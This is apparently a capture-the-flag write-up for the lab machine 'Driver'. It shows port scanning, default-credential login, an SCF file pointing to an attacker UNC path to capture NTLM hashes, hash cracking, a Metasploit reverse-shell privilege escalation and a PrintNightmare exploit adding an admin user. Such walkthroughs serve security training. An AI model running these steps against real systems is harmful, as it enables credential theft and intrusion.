






# Driver

## Machine Info



## Recon

### port

- 80 http
- 135, 445 rpc, smb

- 5985 winrm

```console
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### samba

```console
└─╼$ smbmap -H 10.129.95.238 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)
```

## Foothold

### MFP Firmware Update Center

Default credential: `admin:admin`



Upload function: **firmware**



### SCF Attack

Upload firmware to file share -> `scf` attack:

It is not new that `SCF` (`Shell Command Files`) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

This attack involves creating an `.scf` file with malicious content and uploading it to a network share location. The `IconFile=\\10.10.16.12\qwe\qwe.exe` line doesn't point to an icon file but rather to an executable file at a network location (UNC path). When the Explorer tries to retrieve the icon for this file to display to the user, it actually attempts to access the specified network path. In such an attack scenario, the attacker takes advantage of a feature of Windows Explorer: when it accesses an `.scf` file on a network share to obtain its icon, Windows will try to establish a network connection to the specified UNC path.

If the attacker controls that UNC path (in this example, `\\10.10.16.12\qwe\`), then when the victim's system tries to access this path to retrieve the icon, the attacker can:

1. Capture the network authentication requests sent by the victim's system (such as NTLM hashes).
2. Attempt to execute `qwe.exe` located on the UNC path, which, if the victim has the necessary permissions to execute files at the network location, could result in the execution of malicious code.



Use responder to listen tun0 and discover nthash:

```console

└─╼$ sudo responder --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
           
[SMB] NTLMv2 Client   : 10.129.95.238
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:0af6cc2d39dd48de:60BD0905770EC06B5C226CBBE93B7ACA:010100000000000092169A494C67DA0145B9EC5AF7925C0300000000020000000000000000000000
----------------------------------------------------------------------------
# Cracked by hashcat
TONY::DRIVER:47c102b611dff08d:1c8e2a8ecc0fb3405aacf41fe5bfedd2:010100000000000049fabc4a4c67da01da7d50566af93bc400000000020000000000000000000000:liltony
----------------------------------------------------------------------------
└─╼$ crackmapexec winrm driver.htb -u tony -p liltony
SMB         driver.htb      5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        driver.htb      5985   DRIVER           [*] http://driver.htb:5985/wsman
WINRM       driver.htb      5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

## Privilege Escalation

### Method1: RICOH v4.23

WinPEAS Output:



```console
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

Above this, we know that a printer is added: `RICOH v4.23` which is vulnerable.

> Printer manufacturer Ricoh has requested Pentagrid to coordinate the disclosure of an elevation of privilege vulnerability that mitigates a flaw affecting a range of printers' Windows printer drivers. The vulnerability arises due to improperly set file permissions for file system entries installed when adding a printer to a Windows system, allowing any local user to overwrite program library files (DLLs) with their own code.
>
> Windows loads the improperly protected library file PrintIsolationHost.exe, which is a process running with Windows SYSTEM privileges. When an attacker overwrites the library file used in an administrative context, the library code is also executed with administrative privileges. Consequently, an attacker is able to elevate privileges to SYSTEM. Since by default, the installation of printers is not permitted on domain-managed Windows computers, a generic privilege escalation is possible as long as the vulnerable printer driver is effective and installed.
>
> References:
>
> - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19363
> - https://www.pentagrid.ch/en/blog/local-privilege-escalation-in-ricoh-printer-drivers-for-windows-cve-2019-19363/



```console
msf6 exploit(windows/local/ricoh_driver_privesc) > run

[*] Started reverse TCP handler on 10.10.16.5:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer OeNrLgWJy...
[*] Sending stage (200774 bytes) to 10.129.95.238
[+] Deleted C:\Users\tony\AppData\Local\Temp\IRkEbeh.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 2 opened (10.10.16.5:6666 -> 10.129.95.238:49434) at 2024-02-24 21:32:13 +0800
[*] Deleting printer OeNrLgWJy

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Method2: Printer Nightmare

Dump rpc information: `Print System Remote Protocol`-> printer nightmare

- [Detecting PrintNightmare Exploit Attempts using Trend Micro Vision One and Cloud One | Trend Micro (IT)](https://www.trendmicro.com/it_it/research/21/h/detecting-printnightmare-exploit-attempts-with-trend-micro-vision-one-and-cloud-one.html)
- [calebstewart/CVE-2021-1675: Pure PowerShell implementation of CVE-2021-1675 Print Spooler Local Privilege Escalation (PrintNightmare) (github.com)](https://github.com/calebstewart/CVE-2021-1675/)

```console
└─╼$ cat rpcdump.out | grep 'Print System Remote' -A5
Protocol: [MS-RPRN]: Print System Remote Protocol
Provider: spoolsv.exe
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0
Bindings:
          ncacn_ip_tcp:10.129.95.238[49411]
          ncalrpc:[LRPC-d9d2760f583ba60d65]
```

**Exploit**:

```console
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\cve-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "qwe" -NewPassword "imqwe"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user qwe as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

└─╼$ impacket-psexec qwe:imqwe@driver.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on driver.htb.....
[*] Found writable share ADMIN$
[*] Uploading file yPUypfiV.exe
[*] Opening SVCManager on driver.htb.....
[*] Creating service jQPG on driver.htb.....
[*] Starting service jQPG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Exploit Chain

port scan: http, smb, rpc, winrm -> http with default credential & firmware upload -> scf attack: tony priv -> (1) vulnerable printer driver: exploited using msf; (2) print system remote protocol: printer nightmare -> system priv

## Beyond Root

### What is UNC Path

A UNC path (Uniform Naming Convention path) is a method used in the Windows operating system to specify the location of network resources. UNC paths are commonly used to access shared folders and files stored on network servers.

The format of a UNC path is usually as follows:

```
\\ServerName\SharedFolder\Resource
```

- `\\` marks the beginning of a UNC path, indicating that the following string is a network path.
- `ServerName` is the name or IP address of the server where the network resource is located.
- `SharedFolder` is the name of a folder shared on the server.
- `Resource` is a specific file or subfolder within the shared folder; this part is optional.

For example, if there is a shared folder named `Documents` on a server named `fileserver`, then the UNC path for this shared folder would be:

```
\\fileserver\Documents
```

If you want to access a file named `report.docx` within that shared folder, the UNC path would be:

```
\\fileserver\Documents\report.docx
```

UNC paths can be entered directly into the address bar of the **File Explorer** or used in **various programs** to access network resources. UNC paths allow users to access files and directories on the network without the need to map network drives.
